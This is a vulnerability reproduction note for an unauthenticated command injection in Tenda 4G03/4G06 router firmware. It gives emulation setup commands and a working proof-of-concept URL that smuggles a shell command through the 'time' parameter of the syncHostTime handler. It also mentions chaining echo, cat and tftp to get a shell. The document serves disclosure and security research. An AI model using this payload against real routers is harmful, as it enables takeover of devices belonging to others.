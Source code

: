 # tenda_4g03-4g06_vuln
vuln__firm_version 
4g03 <= V16.03.07.21_multi
4g03 <= V16.03.07.21_multi

# Vulnerability Reproduction
Firmware example ：
https://down.tendacn.com/uploadfile/4G03/US_4G03V1.0re_V16.03.07.21_multi_TDE01.zip

## system emulate:
## Host
sudo brctl addbr br0
sudo ifconfig br0 192.168.1.137/24 up
sudo tunctl -t tap0
sudo ifconfig tap0 192.168.1.138/24 up
sudo brctl addif br0 tap0

## Guest
ip link add br0 type dummy
ifconfig eth0 192.168.1.139/24 up
ifconfig br0 192.168.1.140/24 up

## Mount file system
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root /bin/sh

# Emulation
sudo qemu-system-mipsel -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic

# Vulnerability information
![image](https://github.com/user-attachments/assets/33559806-3b51-4215-96f5-0ccb4eee08cd)

Pass the URL parameters to var, control var, and then execute the corresponding system function through doSystemCmd.

## after emulate successed
run ./bin/httpd 

![image](https://github.com/user-attachments/assets/7a584e9a-0ac2-4bf9-9d61-6ed739434c99)

## browser access
http://192.168.1.140/goform/syncHostTime/js/libs/reasy-ui-1.0.3.js?time=$(ls%20-al)

you can see it in the simulation terminal

![image](https://github.com/user-attachments/assets/725fa838-9d72-4f69-a5a9-9c2b105b3754)

After testing, not only can execute 'ls'. Can also execute 'echo', 'cat', 'tftp' and other commands that can be used to construct payloads to obtain shell commands
